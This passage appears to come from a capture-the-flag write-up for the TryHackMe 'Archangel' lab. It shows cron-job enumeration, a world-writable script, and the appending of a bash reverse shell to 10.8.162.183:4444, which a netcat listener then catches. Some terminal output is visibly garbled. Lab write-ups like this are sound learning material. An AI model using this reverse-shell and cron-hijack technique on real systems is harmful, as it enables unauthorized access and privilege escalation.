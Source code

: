 We can start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md), first we check for cronjobs in /etc/crontab :
```bash
www-data@ubuntu:/home$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

We can check if we can write to **helloworld.sh** file :

```bash
www-data@ubuntu:/opt$ ls -la
total 16
drwxrwxrwx  3 root      root      4096 Nov 20  2020 .
drwxr-xr-x 22 root      root      4096 Nov 16  2020 ..
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh
```

And we can so we try to echo a [Bash](../../3%20-%20Tags/Hacking%20Concepts/Bash.md) [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) in the file :

```bash
world.sh ubuntu:/opt$ echo 'bash -i >& /dev/tcp/10.8.162.183/4444 0>&1' >> hello 
www-data@ubuntu:/opt$ cat helloworld.sh 
#!/bin/bashuntu:/opt$ echo 'bash -i &>/dev/tcp/10.8.162.183/4444 <&1' > helloworl
echo "hello world" >> /opt/backupfiles/helloworld.txt
bash -i >& /dev/tcp/10.8.162.183/4444 0>&1
www-data@ubuntu:/opt$ cat helloworld.sh 
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
bash -i >& /dev/tcp/10.8.162.183/4444 0>&1
```

Now we open a listener on the same port with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and wait for the cronjob to be executed :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Archangel]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.153.25] 39818
bash: cannot set terminal process group (1022): Inappropriate ioctl for device
bash: no job control in this shell
archangel@ubuntu:~$ ls
ls
myfiles
secret
user.txt

archangel@ubuntu:~$ cd secret                                                                  
cd secret                                                                                      
```